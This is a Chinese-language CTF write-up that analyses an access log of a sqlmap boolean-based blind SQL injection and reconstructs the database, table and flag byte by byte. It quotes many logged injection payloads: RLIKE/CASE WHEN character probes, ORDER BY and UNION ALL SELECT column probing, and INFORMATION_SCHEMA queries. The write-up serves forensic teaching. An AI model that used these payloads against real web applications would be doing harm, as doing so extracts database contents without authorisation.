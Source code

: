 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQLmap盲注原理细分          # 标题 
subtitle:      #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入 
    
    - Misc
    
    
---
```


## 简介:
Sqlmap 是一个自动化的 SQL 注入工具，其主要功能是扫描、发现并利用给定的 Url 的 Sql 注入漏洞，目前支持 MySQL、 Oracle、 PostgreSQL、 Microsoft SQL Server、 Microsoft Access 等主流数据库。

 Sqlmap 使用 5 种 SQL 注入技术（不加参数默认测试所有注入技术）：

基于布尔的盲注，即可以根据返回页面判断条件真假的注入。

基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

联合查询注入，可以使用union的情况下的注入。

堆查询注入，可以同时执行多条语句的执行时的注入。


## 题目:

**仔细观察已受到攻击的服务器上的SQLmap盲注日志，逐字节分析得到flag**


## 考察点：
**SQLmap的盲注原理。此题是基于布尔判断的盲注。**


## 知识点：

SQLmap的盲注过程，与手工注入差不多，大概就是先判断是否为注入点，构造payload，然后再order by 判断列名个数，再用union 联合查询获得数据库名，再判断表名，在得到列名，最后得到具体数据。
## 解题过程：

**1.** 下载access.log文件，用记事本打开观察会非常不方便，先在线url转码再可以把它复制到word里，使用全部替换，把union全部标上颜色，这样比较醒目，会看到sqlmap什么时候开始进行union查询。

**2.** 

192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (2783=2783) THEN 0x61646d696e ELSE 0x28 END))-- pCIJ&password=b HTTP/1.1" 200 183 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (7215=9005) THEN 0x61646d696e ELSE 0x28 END))-- hctR&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)" 

在此处注入成功.

然后，
192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' ORDER BY 1-- Hjkp&password=b HTTP/1.1" 200 215 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL-- DOGW&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,NULL-- TeAz&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

此处是在通过order by 盲目的猜，有几个字段数，如果成功则返回是。

**3.**

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT CONCAT(0x717a7a6271,0x6e796e634c66504a7163556e4c59757451546d79536b4e4d48535559764e6c686e55596966657377,0x7170767071),NULL,NULL-- sTlf&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,CONCAT(0x717a7a6271,0x667165474b674f67557770626b4f476e575149536b6473496656616a446d494f65456b475a6d6468,0x7170767071),NULL-- Bnun&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

此处是在判断出字段数之后，判断回显点。

**4.** 通过逐个字节猜ascii判断数据库名，最后得到数据库名，0x77616c6177616c61，walawala。

1192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>1) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


**5.** 通过逐个字节猜ascii判断表名。最后得到表名，16进制转换为字符。fl4g。
192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>114) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>115) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


**6.** 猜列名，通过逐字节比较猜每个列名的ascii，依次判断，最后确定为walawala.fl4g

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(column_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x666c3467 AND table_schema=0x77616c6177616c61 LIMIT 0,1),5,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- IRsT&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

**7.** 读出数据flag。例如：
192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>64) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>96) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>112) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>104) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>100) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>102) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>101) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

判断flag的第一个字符ascii是否大于64，由第二句可以得到显然大于，又接着判断是否大于96，依然大于，之后判断112，说明小于等于112，之后判断104，100，102，说明比100大，小于等于102，直到最后判断101，说明比101大，可以唯一确定第一个字符的ascii为102，每个字符都如此的比较。最后可以确认flag。







[参考链接（一）:mysql注入细节](https://blog.csdn.net/weixin_33698823/article/details/91963832)

[参考链接（二）:sqlmap基于时间盲注判断原理](https://blog.csdn.net/think_ycx/article/details/52083782)


## 谢谢您的查阅，欢迎来访！
